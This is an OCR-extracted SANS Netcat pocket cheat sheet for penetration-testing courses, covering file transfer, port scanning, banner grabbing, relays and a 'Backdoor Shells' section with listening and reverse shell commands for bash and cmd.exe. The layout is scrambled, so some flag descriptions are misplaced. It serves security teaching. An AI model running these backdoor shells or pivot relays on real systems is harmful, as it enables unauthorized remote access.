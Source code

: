 Netcat Relays on Windows 

Netcat Command Flags 

To start, enter a temporary directory where we will 
create .bat fles: 
C:\> cd c:\temp 
 
Listener-to-Client Relay: 
C:\> echo nc [TargetIPaddr] [port] > 
relay.bat 
C:\> nc –l –p [LocalPort] –e relay.bat 
 
Create a relay that sends packets from the local port 
[LocalPort] to a Netcat Client connected to 
[TargetIPaddr] on port [port] 
 
 
Listener-to-Listener Relay: 
C:\> echo nc –l –p [LocalPort_2] > 
relay.bat  
C:\> nc –l –p [LocalPort_1] –e 
relay.bat 
 
Create a relay that will send packets from any 
connection on [LocalPort_1] to any connection 
on [LocalPort_2] 
 
 
Client-to-Client Relay: 
C:\> echo nc [NextHopIPaddr] [port2] > 
relay.bat 
C:\> nc [PreviousHopIPaddr] [port] –e 
relay.bat 
 
Create a relay that will send packets from the 
connection to [PreviousHopIPaddr] on port 
[port] to a Netcat Client connected to 
[NextHopIPaddr] on port [port2] 
 

$ nc [options] [TargetIPaddr] [port(s)] 
 
The [TargetIPaddr] is simply the other side’s IP 
address or domain name. It is required in client mode 
of course (because we have to tell the client where to 
connect), and is optional in listen mode. 
 
-l: Listen mode (default is client mode) 
-L: Listen harder (supported only on Windows 

version of Netcat). This option makes Netcat a 
persistent listener which starts listening again 
after a client disconnects 
-u: UDP mode (default is TCP) 
-p: Local port (In listen mode, this is port listened 

-n: Don’t perform DNS lookups on names of 
-z: Zero-I/O mode (Don’t send any data, just emit 
-wN: Timeout for connects, waits for N seconds 

on. In client mode, this is source port for all 
packets sent) 
-e: Program to execute after connection occurs, 
connecting STDIN and STDOUT to the 
program 
machines on the other side 
a packet without payload) 
after closure of STDIN. A Netcat client or 
listener with this option will wait for N seconds 
to make a connection. If the connection 
doesn’t happen in that time, Netcat stops 
running. 
Standard Error, such as when a connection 
occurs 
on Standard Error 

-vv: Be very verbose, printing even more details 

-v: Be verbose, printing out messages on 

 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
 

 

 

 

Netcat 

 Cheat Sheet
By Ed Skoudis 

 

POCKET REFERENCE GUIDE  

http://www.sans.org 

 

 

 
 

 

Purpose 

using Netcat on both Linux and Unix, 

This cheat sheet provides various tips for 
specifcally tailored to the SANS 504, 517, 
and 560 courses.  All syntax is designed for 
the original Netcat versions, released by 
Hobbit and Weld Pond.  The syntax here 
can be adapted for other Netcats, including 

ncat, gnu Netcat, and others. 

 

Fundamentals 
Fundamental Netcat Client: 
$ nc [TargetIPaddr] [port] 
 
Connect to an arbitrary port [port] at IP Address 
[TargetIPaddr] 
 
Fundamental Netcat Listener: 
$ nc –l -p [LocalPort] 
 
Create a Netcat listener on arbitrary local port 
[LocalPort] 
 
Both the client and listener take input from STDIN 
and send data received from the network to STDOUT

 

 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 

 
 
 
 
 
 
 
 
 

File Transfer 

TCP Banner Grabber 

Netcat Relays on Linux 

Push a fle from client to listener: 
$ nc –l -p [LocalPort] > [outfle] 
 
Listen on [LocalPort], store results in [outfle]  
 
$ nc –w3 [TargetIPaddr] [port] < 
[infle] 
 
Push [infle] to [TargetIPaddr] on [port] 
 
Pull fle from listener back to client: 
$ nc –l -p [LocalPort] < [infle] 
 
Listen on [LocalPort], prep to push [infle]  
 
$ nc –w3 [TargetIPaddr] [port] > 
[outfle] 
 
Connect to [TargetIPaddr] on [port] and 
retrieve [outfle] 
 

TCP Port Scanner 

Port scan an IP Address: 
$ nc –v –n –z –w1 [TargetIPaddr] 
[start_port]-[end_port] 
 
Attempt to connect to each port in a range from 
[end_port] to [start_port] on IP Address 
[TargetIPaddr] running verbosely (-v on Linux, -
vv on Windows), not resolving names (-n), without 
sending any data (-z), and waiting no more than 1 
second for a connection to occur (-w1) 
 
The randomize ports (-r) switch can be used to 
choose port numbers randomly in the range

 

Grab the banner of any TCP service running on an IP 
Address from Linux: 
$ echo "" | nc –v –n –w1 [TargetIPaddr] 
[start_port]-[end_port] 
 
Attempt to connect to each port in a range from 
[end_port] to [start_port] on IP Address 
[TargetIPaddr] running verbosely (-v), not 
resolving names (-n), and waiting no more than 1 
second for a connection to occur (-w1). Then send a 
blank string to the open port and print out any 
banner received in response 
 
Add –r to randomize destination ports within the 
range 
 
Add –p [port] to specify a source port for the 
scan 
 
 
Listening backdoor shell on Linux: 
$ nc –l –p [LocalPort] –e /bin/bash 
Listening backdoor shell on Windows: 
C:\> nc –l –p [LocalPort] –e cmd.exe 
 
Create a shell on local port [LocalPort] that can 
then be accessed using a fundamental Netcat client 
 
Reverse backdoor shell on Linux: 
$ nc [YourIPaddr] [port] –e /bin/bash 
Reverse backdoor shell on Windows: 
C:\> nc [YourIPaddr] [port] –e cmd.exe 
 
Create a reverse shell that will attempt to connect to 
[YourIPaddr] on local port [port]. This shell 
can then be captured using a fundamental nc listener
 

Backdoor Shells 

 

 

 

 

To start, create a FIFO (named pipe) called 
backpipe: 
$ cd /tmp 
$ mknod backpipe p 
 
 
Listener-to-Client Relay: 
$ nc –l –p [LocalPort] 0<backpipe | nc 
[TargetIPaddr] [port] | tee backpipe 
 
Create a relay that sends packets from the local port 
[LocalPort] to a Netcat client connected to 
[TargetIPaddr] on port [port] 
 
 
Listener-to-Listener Relay:
$ nc –l –p [LocalPort_1] 0<backpipe | 
nc –l –p [LocalPort_2] | tee backpipe 
 
Create a relay that sends packets from any 
connection on [LocalPort_1] to any connection 
on [LocalPort_2] 
 
 
Client-to-Client Relay: 
$ nc [PreviousHopIPaddr] [port] 
0<backpipe | nc [NextHopIPaddr] 
[port2] | tee backpipe 
 
Create a relay that sends packets from the 
connection to [PreviousHopIPaddr] on port 
[port] to a Netcat client connected to 
[NextHopIPaddr] on port [port2] 

